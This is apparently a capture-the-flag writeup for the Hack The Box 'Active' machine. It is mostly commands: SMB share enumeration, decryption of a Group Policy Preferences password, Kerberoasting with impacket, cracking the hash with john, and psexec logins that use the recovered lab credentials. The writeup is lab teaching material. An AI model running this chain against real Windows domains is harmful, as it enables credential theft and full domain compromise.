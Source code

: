 Active
========================

    sudo nmap_enum active.htb | tee nmap_output.txt

Aqui sossegado:

    smbclient -L //10.10.10.100
    smbclient //10.10.10.100/Replication -c 'recurse true; ls'
    
![qownnotes-media-vtsXyC](../../../media/qownnotes-media-vtsXyC.png)

    smbclient //10.10.10.100/Replication
    cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups
    get Groups.xml

# Exploitation

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


![qownnotes-media-jysviZ](../../../media/qownnotes-media-jysviZ.png)

    impacket-psexec active.htb/SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100
    
    impacket-GetNPUsers active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

# Privilege Escalation
    
    impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
    
![qownnotes-media-tKQdxa](../../../media/qownnotes-media-tKQdxa.png)

![qownnotes-media-qApPLP](../../.gitbook/assets/qownnotes-media-qApPLP.png)

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    
    impacket-psexec 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
    
![qownnotes-media-WHXRui](../../../media/qownnotes-media-WHXRui.png)

